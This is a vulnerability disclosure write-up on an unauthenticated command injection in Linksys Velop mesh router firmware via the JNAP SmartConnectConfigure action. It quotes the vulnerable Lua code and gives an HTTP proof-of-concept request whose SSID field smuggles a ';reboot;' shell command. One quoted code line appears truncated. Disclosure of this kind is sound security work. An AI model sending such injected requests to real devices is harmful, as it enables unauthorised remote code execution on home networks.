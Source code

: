 ```yaml
---
published: false
categories: [vulnerability,Linksys]
tags: [Linksys Velop Command Injection]
---
```


## Linksys Velop command injection with preauth


### Affected Software
The firmware version which I test is 1.1.2.185309, but there is a newer version of 1.1.2.187020 on March 20, 2018
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
No CVE at the moment
There is a command injection vulnerability through JNAP action of http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , the vulneraibility may lead to RCE without authentication
JNAP is a web services protocol for Cisco, similar as HNAP. 

There are many X-JNAP-Actions can be made through HTTP request. One of the action is http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , for example, the http server can handle the following request without any authentication.
~~~http
POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"ssid","configApPassphrase":"wifipass","srpLogin":"user","srpPassword":"password"}
~~~

Through the action name, this request seems to be used to configure the smart wifi so it needn't any authentication.The first .lua file which processes this request is smartconnect_server.lua in /JNAP/modules/:
~~~lua
local function SmartConnectConfigure(ctx, input)
        local smc = require('smartconnect')
        local sc = ctx:sysctx()
        local error, output = smc.smartConnectConfigure(sc, input)
        return error or 'OK'
    end
~~~

Input parameters will be passed to smartConnectConfigure function in smartconnect.lua in /usr/local/lib/lua/5.1/, when we looked into this function and found there is no check of the input parameters:

~~~lua
function _M.smartConnectConfigure(sc, input)
        sc:writelock()
        local hdk = require('libhdklua')
        local smart_mode = sc:get_smartmode()
        if smart_mode == 2 then
            -- If a device is Master node.
            local error, output = bluetooth.btSmartConnectConfigure(input.configApSsid, input.configApPassphrase, input.srpLogin, input.srpPassword)
            if not error then
                return nil
            else
                return error
            end
        elseif smart_mode == 0 then
            -- If a device is Unconfigured.
            sc:set_smartconnect_configured_ssid(input.configApSsid);
            sc:set_smartconnect_configured_passphrase(input.configApPassphrase);
            sc:set_smartconnect_auth_login(input.srpLogin);
            sc:set_smartconnect_auth_pass(input.srpPassword);
            sc:set_smartmode(1)
            sc:set_bridge_mode_wo_reboot(1)
            sc:set_wifibridge_mode_wo_event(2)
            -- sc:setevent(_M.SMART_CONNECT_SETUP_STATUS, 'DONE')
            -- sc:setevent(_M.FORWARDING_RESTART, '')
            os.execute('smcdb_cli create')
            os.execute('smcdb_cli update -s '..input.configApSsid..' -p '..input.configApPassphrase..' -l '..input.srpLogin..' -a '..input.srpPassword)
            os.execute('sysevent set smart_connect::setup_status AUTH')
            os.execute('sysevent set forwarding-restart')
            return nil
        else
            return 'ErrorBTUnsupportedMode'
        end
    end
~~~

Then btSmartConnectConfigure will be called:

~~~lua
function _M.btSmartConnectConfigure(configap, configpass, srplogin, srppass)
        local opt = '-f '..'-A '..configap..'-P '..configpass..'-L '..srplogin..'-R '..srppass
        local error, output = _M.btRunCentralCommandSync(opt)
        if error then
            return '_ErrorUnexpected'
        end
        return nil, output
    end

    function _M.btRunCentralCommandSync(option)
        assert(option)
        local output = {}
        local table
        local jsonData
        local json = require('libhdkjsonlua')
        local file = io.(_M.RUN_CENTRAL_CMD_SYNC:format(option))
        if file then
            jsonData = file:read('*a')
            file:close()
            -- Parsing result
            table = json.parse(jsonData)
            if not table then
                platform.logMessage(platform.LOG_ERROR, ('Failed parsing JSON data\n'))
                return 'error_get_result_fail'
            end
            if table.result == 'error_bt' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_jnap_req_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_not_connected' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTNotConnected'
            end
            if table.result == 'error_conn_lost' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTConnectionLost'
            end
            if table.result == 'error_notify_timeout' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTPeripheralNotRespond'
            end
            if table.result == 'error_command_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommandFailed'
            end
            if table.result == 'error_notify_enable_fail'
                or table.result == 'error_gatt_read_fail'
                or table.result == 'error_gatt_write_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommunicationFailed'
            end
           output = table
        end
        return nil, output
    end
~~~

RUN_CENTRAL_CMD_SYNC is defined at the top of bluetooth.lua

    _M.RUN_CENTRAL_CMD_SYNC = '/usr/bin/btsetup_central %s'

So, there are four parameters passed to the function btSmartConnectConfigure: configApSsid,configApPassphrase,srpLogin and srpPassword. In the btRunCentralCommandSync function,  there is a call to /usr/bin/btsetup_central with the four parameters given. There is not any check of the four parameters and cause a command injection problem. Since this request will be processed without authentication, an attacker can get RCE with preauth.

#### PoC
The following PoC will cause a reboot of the node.
~~~http
    POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"testssid;reboot;","configApPassphrase":"testwifipass","srpLogin":"testlogin","srpPassword":"testpass"}
~~~

### Timeline

2018-03-04: Discovered
2019-02-05: Reported, but the vendor has fixed
